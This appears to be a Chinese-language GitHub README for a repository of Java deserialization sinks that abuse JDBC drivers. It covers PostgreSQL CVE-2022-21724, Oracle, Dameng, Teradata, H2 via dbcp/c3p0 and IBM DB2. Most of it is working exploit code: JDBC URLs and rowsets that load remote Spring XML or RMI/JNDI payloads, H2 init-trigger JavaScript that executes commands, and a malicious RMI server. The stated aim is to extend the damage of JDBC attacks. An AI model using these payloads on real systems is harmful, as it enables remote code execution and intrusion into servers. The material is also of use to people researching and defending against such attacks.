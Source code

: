 # Deserial_Sink_With_JDBC

> 如果你：
>
> 厌倦了高版本JDK中TemplatesImpl已经被移除
>
> 寻找gadget却想不到sink
>
> 无法扩大JDBC攻击的危害
>
> ...
>
> 不妨试试下面的内容，也扩宽些思路

---

### Postgresql

PostgreSQL的JDBC存在一个CVE-2022-21724，其影响范围是

> 9.4.1208 <=PgJDBC <42.2.25
>
> 42.3.0 <=PgJDBC < 42.3.2

Sink构造

```java
        String command = "jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:2333/test.xml";
        PGSimpleDataSource dataSource = new PGSimpleDataSource();
        dataSource.setUrl(command);
```

利用`python3 -m http.server 2333`本地开启一个http服务，其中test.xml的文件内容为

```xml
<beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>open</value>
                <value>-a</value>
                <value>Calculator</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

具体代码见src/main/java/postgresql包下内容

### oracle

Sink构造

```java
        // sink
        OracleCachedRowSet oracleCachedRowSet = new OracleCachedRowSet();
        oracleCachedRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
```

具体代码见src/main/java/oracle包下内容

### Dameng(达梦)

Sink构造，构造时需要设置Reader和Writer为null，使得writeObject的时候忽略掉这2个不可序列化的field

```java
        DmdbRowSet dmdbRowSet = new DmdbRowSet();
        dmdbRowSet.setDataSourceName("rmi://127.0.0.1:1099/Exploit");
        dmdbRowSet.setReader(null);
        dmdbRowSet.setWriter(null);
```

具体代码见src/main/java/dameng包下内容

### Teradata

Sink构造，此gadget为[ppt](https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf)内容，不做过多讲解

```java
        String command = "open -a Calculator";
        TeraDataSource dataSource = new TeraDataSource();
        dataSource.setBROWSER(command);
        dataSource.setLOGMECH("BROWSER");
        dataSource.setDSName("127.0.0.1");
        dataSource.setDbsPort("10250");
```

`python3 fakeserver.py`开启恶意server

`python3 fakesso.py`开启恶意sso

具体代码见src/main/java/teradata包下内容

---

> 如果datasource并不能序列化，我们可以是用c3p0或dbcp来调用getConnection

### Dbcp H2

sink构造

```java
        // sink but use dbcp bypass jndi
        String command = "rmi://127.0.0.1:1099/Exploit";
        SharedPoolDataSource dataSource = new SharedPoolDataSource();
        dataSource.setDataSourceName(command);
```

同时为了应对高版本的JNDI注入，我们可以有如下恶意RMI Server

```java
        Registry registry = LocateRegistry.createRegistry(rmi_port);
        ResourceRef ref = new ResourceRef(
                "javax.sql.DataSource",
                null,
                "", "", true,
                "org.apache.commons.dbcp2.BasicDataSourceFactory",
                null);
        String JDBC_URL = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ref.add(new StringRefAddr("driverClassName","org.h2.Driver"));
        ref.add(new StringRefAddr("url",JDBC_URL));
        ref.add(new StringRefAddr("username","root"));
        ref.add(new StringRefAddr("password","password"));
        ref.add(new StringRefAddr("initialSize","1"));
```

具体代码见src/main/java/dbcp2/h2包下内容

### C3p0 H2

sink构造

```java
        // sink
        String command = "jdbc:h2:mem:test;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON\n" +
                "INFORMATION_SCHEMA.TABLES AS $$//javascript\n" +
                "java.lang.Runtime.getRuntime().exec('open -a Calculator')\n" +
                "$$\n";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/h2包下内容

### C3p0 ibm db2

sink构造

```java
        String command = "jdbc:db2://127.0.0.1:50001/BLUDB:clientRerouteServerListJNDIName=rmi://127.0.0.1:1099/Exploit;";
        ComboPooledDataSource dataSource = new ComboPooledDataSource();
        dataSource.setJdbcUrl(command);
```

具体代码见src/main/java/c3p0/ibmdb2包下内容

---

### Ref

- https://github.com/Y4tacker/JavaSec

- https://tttang.com/archive/1405/

- https://i.blackhat.com/Asia-23/AS-23-Yuanzhen-A-new-attack-interface-in-Java.pdf

- https://mogwailabs.de/en/blog/2023/04/look-mama-no-templatesimpl/

  

